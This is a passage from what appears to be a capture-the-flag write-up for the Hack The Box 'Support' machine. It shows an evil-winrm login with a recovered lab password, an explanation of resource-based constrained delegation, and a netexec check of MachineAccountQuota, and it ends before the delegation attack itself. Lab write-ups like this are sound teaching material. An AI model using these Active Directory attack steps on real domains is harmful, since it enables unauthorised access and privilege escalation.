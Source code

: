 ![blood2](blood2.png)

Looking at `support`I see they are a part of `Remote Management Users` hence has access to `winrm`

![blood1](blood1.png)

Using `evil-winrm` I get shell as support
```
evil-winrm -i 10.10.11.174  -u support -p Ironside47pleasure40Watchful    
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> 
```
The user flag can be obtained at `C:\Users\support\Desktop\user.txt`

## Privilege Escalation
Looking at support I find that they are a member of `Shares Support Accounts` group which has generic all over `DC` Computer OU
![image](Pasted image 20250804095638.png)
### Resource-Based Constrained Delegation
#### Theory
Resource-based constrained delegation (RBCD) is an Active Directory (AD) security feature that enables administrators to delegate permissions in order to manage resources more securely and with greater control. Introduced as an enhancement to the traditional Kerberos constrained delegation (KCD), RBCD can help to reduce the risk of privilege escalation and to maintain the principle of least privilege.
### Attack path
This [Ired-blog post](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) really explains the attack path to follow in order get the exploit running
#### Requirements
- Target computer
- Admins on target computer
- Fake computer name
- Fake computer SID
- Fake computer password
- Windows 2012 Domain Controller
### Attack
I confirm that I can add computers with `netexec` in which I can add 10 machine accounts
```
nxc ldap 10.10.11.174 -u support -p Ironside47pleasure40Watchful -M maq
LDAP        10.10.11.174    389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
LDAP        10.10.11.174    389    DC               [+] support.htb\support:Ironside47pleasure40Watchful 
MAQ         10.10.11.174    389    DC               [*] Getting the MachineAccountQuota
MAQ         10.10.11.174    389    DC               MachineAccountQuota: 10
```
